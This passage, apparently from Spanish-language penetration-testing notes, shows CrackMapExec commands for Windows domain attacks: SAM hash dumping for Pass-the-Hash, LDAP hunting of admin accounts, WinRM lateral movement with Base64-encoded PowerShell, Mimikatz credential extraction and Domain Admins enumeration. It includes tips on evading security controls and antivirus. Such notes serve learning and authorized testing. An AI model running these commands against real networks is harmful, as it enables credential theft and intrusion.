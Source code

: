 > [!example] Explicación
> Una vez que tenemos credenciales válidas de administrador, podemos extraer los hashes de contraseña almacenados en la base de datos SAM del sistema. Estos hashes pueden usarse posteriormente para ataques de Pass-the-Hash contra otros sistemas o para intentar crackearlos offline y obtener las contraseñas en texto claro.

### Ejemplo 5: Enumeración de Dominio con LDAP

```bash
# Enumerar usuarios de dominio a través de LDAP
crackmapexec ldap 192.168.1.10 -u 'usuario' -p 'contraseña' -M userhunter
```

> [!example] Explicación
> Este comando usa el protocolo LDAP para conectarse al controlador de dominio y ejecuta el módulo "userhunter" que busca usuarios específicos (como administradores) en el dominio. Es extremadamente útil para identificar cuentas de alto valor que podrían ser objetivos prioritarios en un ataque.

---

## Técnicas Avanzadas

### Movimiento Lateral con CrackMapExec

```bash
# Ejecución a través de WinRM
crackmapexec winrm 192.168.1.0/24 -u administrator -H <hash> -x "powershell -enc <base64_encoded_command>"
```

> [!tip] Comandos Codificados
> El uso de comandos codificados en Base64 puede ayudar a evadir algunos controles de seguridad:
> ```powershell
> $Command = "whoami; hostname; Get-NetIPAddress"
> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Command)
> $EncodedCommand = [Convert]::ToBase64String($Bytes)
> Write-Host $EncodedCommand
> ```

### Extracción de Credenciales con Mimikatz

```bash
# Usar el módulo Mimikatz para extraer credenciales
crackmapexec smb 192.168.1.100 -u Administrator -p 'Password123' -M mimikatz -o COMMAND='sekurlsa::logonpasswords'
```

> [!warning] Detección por Antivirus
> El uso de Mimikatz suele ser detectado por soluciones antivirus modernas. En entornos reales, puede ser necesario usar técnicas de evasión adicionales.

### Enumeración de Grupos de Seguridad

```bash
# Enumerar miembros de grupos privilegiados
crackmapexec ldap 192.168.1.10 -u 'usuario' -p 'contraseña' -M group-members -o GROUP="Domain Admins"
```

---